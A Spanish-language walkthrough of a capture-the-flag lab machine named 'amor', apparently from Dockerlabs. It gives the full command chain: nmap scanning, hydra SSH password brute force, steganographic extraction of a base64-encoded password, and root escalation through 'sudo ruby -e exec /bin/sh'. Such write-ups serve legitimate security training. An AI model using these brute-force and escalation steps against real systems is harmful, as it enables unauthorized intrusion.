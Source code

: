 # amor

* Máquina **atacante** -> 172.17.0.1
* Máquina **objetivo** -> 172.17.0.2 | Linux :penguin:

### Escaneo de puertos

Realizamos un escaneo de puertos con *nmap* para ver puertos abiertos de la máquina **objetivo**:
```shell
nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 172.17.0.2
```
![escaneo](/Capturas/2024-10-31_19-40.png)

Encontramos abiertos el puerto **80** y el puerto **22**.

### HTTP

Nos vamos al navegador y vemos qué tenemos corriendo por el puerto **80**. Nos encontramos con una especie de registrador de eventos titulado **SecurSEC S.L** (intuyo que es como se llama la empresa):

![securesl](/Capturas/2024-10-31_19-44.png)

Encontramos dos nombres, los cuales pueden ser potenciales usuarios de la máquina **objetivo**.

### Fuerza bruta

Al realizar fuerza bruta con ambos usuarios en *hydra*, encontramos que el usuario **carlota** tiene la contraseña **babygirl**:
```shell
hydra -l carlota  -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![hydra](/Capturas/2024-10-31_19-47.png)

### Intrusión

Accedemos vía **ssh** con las credenciales obtenidas mediante **fuerza bruta**:
```shell
ssh carlota@172.17.0.2
```
![ssh](/Capturas/2024-10-31_19-48.png)

Investigamos la máquina hasta encontrar **imagen.jpg** en el directorio `/home/carlota/Desktop/fotos/vacaciones`:

![imagen](/Capturas/2024-10-31_19-54.png)

Para poder inspeccionar bien la imagen, nos la pasamos a nuestra máquina **atacante**, en mi caso caso abriendo un servidor http por el puerto **444** y descargándola desde mi máquina **atacante**:
```shell
python3 -m http.server 444
```
![imagen_abierta](/Capturas/2024-10-31_19-59.png)

Una vez la tenemos, buscamos algún mensaje oculto con *steghide* y extraemos un **archivo.txt** que contiene información:
```shell
steghide extract -sf imagen.jpg
```
![estegnografia](/Capturas/2024-10-31_20-03.png)

Tras investigar sobre el contenido del **secret.txt**, damos con que el contenido está **codificado en base 64**, por lo que procedemos a su decodificación con el siguiente comando:
```shell
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d
```
![decod](/Capturas/2024-10-31_20-06.png)

Vemos que nos saca el mensaje **eslacasadepinypon**. Por lo que debemos probar ese mensaje como contraseña con algún otro usuario. Si nos vamos a `/home` vemos que hay otro usuario llamado **Oscar**:

![oscar](/Capturas/2024-10-31_20-11.png)

Así que probamos ingresar a la máquina con el usuario **oscar** y la contraseña **eslacasadepinypon** y ¡bingo! Estamos dentro. Al buscar por su escritorio vemos que hay un archivo de texto llamado **IMPORTANTE.txt**:

![importante](/Capturas/2024-10-31_20-16.png)

> Hola ROOT, acuérdate de mirar el documento de tu escritorio.

### Escalada de privilegios

Probamos a ejecutar `sudo -l` para ver si podemos ejecutar algo como **root**:

![sudo-l](/Capturas/2024-10-31_20-19.png)

Parece que podemos ejecutar *Ruby* como **root**. Así que ejecutamos el siguiente comando y somos **root**:triangular_flag_on_post::
```shell
sudo ruby -e 'exec "/bin/sh"'
```
![root](/Capturas/2024-10-31_20-21.png)

Haciendo caso al mensaje del archivo **IMPORTANTE.txt**, si vamos al escritorio de **root**, nos encontramos con un archivo de texto **THX.txt** del creador de la máquina dando gracias:

![gracias](/Capturas/2024-10-31_20-23.png)

> Gracias a toda la comunidad de Dockerlabs y a Mario por toda la ayuda proporcionada para poder hacer la máquina.